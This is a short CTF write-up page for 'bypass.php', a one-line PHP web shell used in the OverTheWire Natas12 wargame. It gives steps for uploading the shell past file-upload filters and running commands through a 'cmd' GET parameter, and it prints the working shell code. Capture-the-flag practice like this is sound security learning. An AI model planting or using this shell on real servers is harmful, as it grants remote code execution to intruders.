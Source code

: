 ## 🔐 bypass.php

**Created:** 2025-06-03  
**Author:** Itacarambi  
**Challenge:** [OverTheWire — Natas12](https://github.com/ItacarambiSec/CTFs/blob/main/OverTheWire/Natas/Natas12/Readme.md)

---

## 🎯 Purpose

This script serves as a basic web shell, designed specifically for Remote Code Execution (RCE). It was used in the Natas12 challenge to execute arbitrary commands on the remote server after bypassing file upload restrictions. It receives a command via a GET parameter (`cmd`) and executes it using PHP's `system()` function, displaying the output directly on the web page.   

---

## ⚙️ Usage

This script must be uploaded to a vulnerable web server, typically via a file upload vulnerability.  

1. Upload: After bypassing upload filters (as demonstrated in Natas12 by manipulating the file name extension), upload this script to a web-accessible directory on the target server.  
2. Execute: Access the uploaded script via its URL in the browser, appending the desired command as a GET parameter.  

Example: `http://[target_url]/upload/[script_name].php?cmd=ls%20-la` 

## 💻 Script

```php
<?php system($_GET['cmd']); ?>
```
  


